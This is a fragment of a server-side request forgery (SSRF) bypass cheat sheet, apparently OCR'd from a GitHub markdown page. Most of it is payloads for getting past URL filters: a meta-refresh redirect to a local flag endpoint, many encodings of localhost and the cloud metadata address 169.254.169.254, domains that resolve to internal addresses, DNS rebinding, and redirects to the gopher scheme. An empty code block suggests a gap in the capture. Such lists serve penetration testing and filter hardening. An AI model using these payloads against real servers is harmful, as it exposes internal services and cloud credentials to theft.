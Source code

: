  ```php
  ```
  ```html
  <meta http-equiv="refresh" content="0; URL=http://127.0.0.1/flag" />
  ```
- Using Alternatives
  ```bash
  # 127.0.0.1
  127.1
  0x7F000001
  0.0.0.0.
  2130706433
  localtest.me
  localhost.localdomain          # This subdomain exists in /etc/hosts file of Amazon EC2
  my.computer
  ip6-localhost                  # exist by default in /etc/host
  0
  [::1]                          # IPv6
  [::]
  fc00::                         # is the first address on the private network.
  [0:0:0:0:0:ffff:127.0.0.1]
  
  # 169.254.169.254
  http://[::ffff:a9fe:a9fe]/latest/meta-data        # "::ffff:" prefix indicates that the address is an IPv4-mapped IPv6 address
  http://①⑥⑨.②⑤④.①⑥⑨.②⑤④/latest/meta-data
  ```
- Set `127.0.0.1` for `https://local.cvefix.ir` subdomain in *https://nic.ir*.
  ```bash
  https://target.tld/proxy?url=https://local.cvefix.ir
  http://aws-ssrf.icollab.info/latest/meta-data/                # aws-ssrf.icollab.info  →  169.254.169.254
  ```
- DNS Rebinding
  - If the checker function resolves the domain, we can bypass it by DNS Rebinding, that change the resolved IP after 3 seconds.
  - https://lock.cmpxchg8b.com/rebinder.html
  <img src="../res/ssrf-3.png" width="600">
- Try redirect bypass method to take advantage of variuos schemes.
  - We should redirect victim to attacker server, then redirect it to another scheme like `gopher` 
  <img src="../res/ssrf-2.png" width="600">
  